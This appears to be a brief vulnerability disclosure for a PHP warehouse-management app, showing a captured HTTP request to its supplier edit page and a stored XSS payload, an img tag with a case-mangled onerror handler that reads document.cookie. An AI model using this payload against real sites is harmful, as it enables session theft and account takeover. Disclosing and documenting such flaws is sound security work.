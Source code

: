 Request:

```
POST /ci_wms/website/supplier/edit/4 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Origin: http://localhost
Sec-GPC: 1
Connection: close
Referer: http://localhost/ci_wms/website/supplier/edit/4
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14; sessions=ajqpsdpib7m3hjjdrk9ftdh9ucbh14r2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

id_supplier=4&nama_supplier=Avant+Suppliers&alamat_supplier=440+Enim+St&notelp_supplier=04550010&simpan=Update+Data
```

payload

```
<img src=x onerRor=alert(document.cookie)>
```
<img width="1340" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/59b9c313-d7e2-4393-9ed0-8a171a8d9b54">

<img width="689" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/a46fc384-b7a3-495c-8642-00402bad4ce8">

<img width="1301" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/479601d4-7b3e-4522-9c8d-57695c78f984">


